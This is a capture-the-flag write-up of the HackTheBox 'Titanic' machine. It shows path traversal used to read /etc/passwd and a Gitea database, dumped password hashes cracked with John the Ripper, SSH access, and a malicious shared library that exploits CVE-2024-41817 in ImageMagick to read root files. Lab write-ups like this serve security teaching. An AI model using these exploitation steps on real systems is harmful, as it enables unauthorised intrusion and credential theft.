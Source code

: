 ```yaml
---
layout: post
title: "Titanic HTB Writeup"
date: Feb 28, 2025
---
```


Link to the machine: [HTB Titanic](https://app.hackthebox.com/machines/Titanic)

Per usual, we scan for open ports.

```
0 kjc@kjc:~$ nmap 10.10.11.55
Starting Nmap 7.95 ( https://nmap.org ) at 2025-02-24 10:38 EST
Nmap scan report for 10.10.11.55
Host is up (0.069s latency).
Not shown: 998 closed tcp ports (conn-refused)
PORT   STATE SERVICE
22/tcp open  ssh
80/tcp open  http

Nmap done: 1 IP address (1 host up) scanned in 1.19 seconds
```

It looks like there's a website and SSH connection. On the website, we can book a ticket. On doing so, there are two request that are made.

![](/assets/2025-02-24T10:52:36-05:00.png)

Looking at the `download?ticket=9d9eaf55-3e76-4670-9351-7f25a1545c3d.json` part of the second request more closely, I suspected there was an LFI. Indeed, there is one. By replacing the JSON file with `/etc/passwd` we get its contents. In particular, the `developer` account is interesting.

```
landscape:x:111:117::/var/lib/landscape:/usr/sbin/nologin
fwupd-refresh:x:112:118:fwupd-refresh user,,,:/run/systemd:/usr/sbin/nologin
usbmux:x:113:46:usbmux daemon,,,:/var/lib/usbmux:/usr/sbin/nologin
developer:x:1000:1000:developer:/home/developer:/bin/bash
lxd:x:999:100::/var/snap/lxd/common/lxd:/bin/false
dnsmasq:x:114:65534:dnsmasq,,,:/var/lib/misc:/usr/sbin/nologin
```

Trying more filenames, we find some interesting `/etc/hosts` entries:

```
127.0.0.1 localhost titanic.htb dev.titanic.htb
127.0.1.1 titanic

# The following lines are desirable for IPv6 capable hosts
::1     ip6-localhost ip6-loopback
fe00::0 ip6-localnet
ff00::0 ip6-mcastprefix
ff02::1 ip6-allnodes
ff02::2 ip6-allrouters
```

At the subdomain `dev.titanic.htb` we find a Gitea instance with two repos. The `flask-app` one is not interesting, but the `docker-config` contains some juicy details:

```
# gitea/docker-compose.yml
version: '3'

services:
  gitea:
    image: gitea/gitea
    container_name: gitea
    ports:
      - "127.0.0.1:3000:3000"
      - "127.0.0.1:2222:22"  # Optional for SSH access
    volumes:
      - /home/developer/gitea/data:/data # Replace with your path
    environment:
      - USER_UID=1000
      - USER_GID=1000
    restart: always
```

We can use the LFI again to fetch `/home/developer/gitea/data/gitea/conf/app.ini` which is described on Gitea's documentation, and points us to the DB file at `/home/developer/data/gitea/gitea.db`. In the `user` table we can find the credentials:

```
1|administrator|administrator||root@titanic.htb|0|enabled|cba20ccf927d3ad0567b68161732d3fbca098ce886bbc923b4062a3960d459c08d2dfc063b2406ac9207c980c47c5d017136|pbkdf2$50000$50|0|0|0||0|||70a5bd0c1a5d23caa49030172cdcabdc|2d149e5fbd1b20cf31db3e3c6a28fc9b|en-US||1722595379|1722597477|1722597477|0|-1|1|1|0|0|0|1|0|2e1e70639ac6b0eecbdab4a3d19e0f44|root@titanic.htb|0|0|0|0|0|0|0|0|0||gitea-auto|0
2|developer|developer||developer@titanic.htb|0|enabled|e531d398946137baea70ed6a680a54385ecff131309c0bd8f225f284406b7cbc8efc5dbef30bf1682619263444ea594cfb56|pbkdf2$50000$50|0|0|0||0|||0ce6f07fc9b557bc070fa7bef76a0d15|8bf3e3452b78544f8bee9400d6936d34|en-US||1722595646|1740412843|1740412843|0|-1|1|0|0|0|0|1|0|e2d95b7e207e432f62f3508be406c11b|developer@titanic.htb|0|0|0|0|2|0|0|0|0||gitea-auto|0
3|test|test||test@test.com|0|enabled|0fb2cbd96b68e663c6fe7a2db29c4eb4a9836f740f3ca65662425acf9781aed661a06761d06b99023d0969b57c70d6ece21e|pbkdf2$50000$50|0|0|0||0|||f815e73b2ad7186a678bb47c32024cd5|91af6cb2fec11f9f28ca337bb7cd96c9|en-US||1740410708|1740410716|1740410708|0|-1|1|0|0|0|0|1|0|b642b4217b34b1e8d3bd915fc65c4452|test@test.com|0|0|0|0|0|0|0|0|0||gitea-auto|0
```

I was able to convert the hashes for the developer to a format that John the Ripper would accept. The password is "25282528".

```
kjc@kjc:~$ john hash.txt --wordlist=wordlists/rockyou.txt
'Warning: detected hash type "PBKDF2-HMAC-SHA256", but the string is also recognized as "PBKDF2-HMAC-SHA256-opencl"
Use the "--format=PBKDF2-HMAC-SHA256-opencl" option to force loading these as that type instead
Using default input encoding: UTF-8
Loaded 1 password hash (PBKDF2-HMAC-SHA256 [PBKDF2-SHA256 256/256 AVX2 8x])
Cost 1 (iteration count) is 50000 for all loaded hashes
Will run 16 OpenMP threads
Press 'q' or Ctrl-C to abort, 'h' for help, almost any other key for status
0g 0:00:00:01 0.02% (ETA: 14:28:51) 0g/s 1638p/s 1638c/s 1638C/s slimshady..dangerous
25282528         (?)
1g 0:00:00:03 DONE (2025-02-24 12:52) 0.2703g/s 1660p/s 1660c/s 1660C/s VANESSA..horoscope
Use the "--show --format=PBKDF2-HMAC-SHA256" options to display all of the cracked passwords reliably
Session completed.
```

With the password, we can SSH into the developer's user on the machine. We find the user flag immediately.

```
developer@titanic:~$ ls
gitea  mysql  user.txt
developer@titanic:~$ cat user.txt
53e5d7d5aeecf65edb82c4bd0c1de901
developer@titanic:~$
```

By looking through the filesystem and trying to find anything executable, we find a script in `/opt/scripts` which runs ImageMagick. We can exploit the script with CVE-2024-41817, like this:

```
developer@titanic:/opt/scripts$ cd /opt/app/static/assets/images
developer@titanic:/opt/app/static/assets/images$ gcc -x c -shared -fPIC -o ./libxcb.so.1 - << EOF
#include <stdio.h>
#include <stdlib.h>
#include <unistd.h>

__attribute__((constructor)) void init(){
    system("cat /root/root.txt >/home/developer/root.txt");
    exit(0);
}
EOF
developer@titanic:/opt/app/static/assets/images$ cat ~/root.txt
2e563b9d4c49e0c4d8d5461feffa22ab
```

And now we have both the flags, which concludes the HTB box.
